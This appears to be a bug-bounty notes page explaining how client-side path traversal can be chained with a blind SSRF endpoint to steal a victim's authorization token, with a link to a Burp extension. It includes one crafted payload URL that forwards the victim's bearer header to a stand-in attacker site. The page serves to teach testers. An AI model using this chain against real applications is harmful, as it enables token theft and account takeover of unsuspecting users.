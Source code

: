 ### CSPT + SSRF = Steal AUTH Token&#x20;

{% embed url="https://x.com/samwcyo/status/1437030056627523590?lang=fr" %}

The blind SSRF vulnerability requires an authorization header to be sent to the server, which is then passed through a `url` parameter in a GET request. Since CSRF attacks cannot directly force a victim's browser to send an authorization header, exploiting this SSRF directly would be challenging. However, if client-side path traversal is present, it opens up new avenues for exploitation.

**Exploit Scenario**

**Identifying the Blind SSRF:**

* The API endpoint vulnerable to blind SSRF accepts a `url` parameter, and it forwards any provided authorization header to the specified URL. The API endpoint is accessed via a GET request, such as `/example?url=https://`.

**Exploring for Client-Side Path Traversal:**

* By examining the application’s client-side JavaScript, particularly looking at navigation and URL handling, you can find client-side path traversal vulnerabilities. These are often easier to discover in large applications with complex JavaScript files.
* For instance, parameters passed through the URL, such as `?x=1`, or values in the URL hash might be processed by the client-side JavaScript and result in HTTP requests being made on behalf of the user.

**Combining Vulnerabilities for Exploitation:**

* Discover a client-side path traversal vulnerability where parameters are used in HTTP requests, like `?id=1`, leading to an API call such as `/api/users/1`.
*   Craft a payload to leverage both vulnerabilities. For example:

    ```bash
    bashCopy codehttps://victimsite/users?id=/../../example?url=https://attacker-site/?payload
    ```
* Here’s how it works:
  * The client-side path traversal payload (`/../../example`) is designed to manipulate the server's behavior.
  * When the SSRF endpoint processes the URL, it triggers the request to `https://attacker-site/?payload`, which causes the victim's browser to send the authorization bearer with the request, thus allowing the attacker to capture it.

## CSPT Burp Extension

{% embed url="https://github.com/doyensec/CSPTBurpExtension" %}

**Configurations**

<figure><img src="../.gitbook/assets/image (274).png" alt=""><figcaption></figcaption></figure>
